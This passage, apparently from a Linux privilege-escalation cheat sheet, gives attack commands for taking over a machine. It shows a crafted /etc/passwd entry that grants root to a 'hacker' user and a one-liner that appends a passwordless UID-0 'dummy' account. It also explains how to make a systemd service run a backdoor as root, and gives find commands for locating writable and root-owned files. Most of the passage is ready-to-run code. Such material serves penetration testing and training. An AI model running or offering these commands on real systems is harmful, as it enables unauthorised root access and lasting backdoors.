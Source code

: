 E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively, you can use the following lines to add a dummy user without a password.
WARNING: you might degrade the current security of the machine.

```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.

You should check if you can write in some sensitive files. For example, can you write to some service configuration file?

```
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
```

For example, if the machine is running a tomcat server and you can modify the Tomcat service configuration file inside /etc/systemd/, then you can modify the lines:

```
ExecStart=/path/to/backdoor
User=root
Group=root
```

Your backdoor will be executed the next time that tomcat is started.

### Check Folders

The following folders may contain backups or interesting information: /tmp, /var/tmp, /var/backups, /var/mail, /var/spool/mail, /etc/exports, /root (Probably you won't be able to read the last one but try)

```
ls -a /tmp /var/tmp /var/backups /var/mail/ /var/spool/mail/ /root
```

### Weird Location/Owned files

```
#root owned files in /home folders
find /home -user root 2>/dev/null
#Files owned by other users in folders owned by me
for d in `find /var /etc /home /root /tmp /usr /opt /boot /sys -type d -user $(whoami) 2>/dev/null`; do find $d ! -user `whoami` -exec ls -l {} \; 2>/dev/null; done
#Files owned by root, readable by me but not world readable
find / -type f -user root ! -perm -o=r 2>/dev/null
#Files owned by me or world writable
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
#Writable files by each group I belong to
for g in `groups`;
      do printf "  Group $g:\n";
      find / '(' -type f -or -type d ')' -group $g -perm -g=w ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
      done
done
```

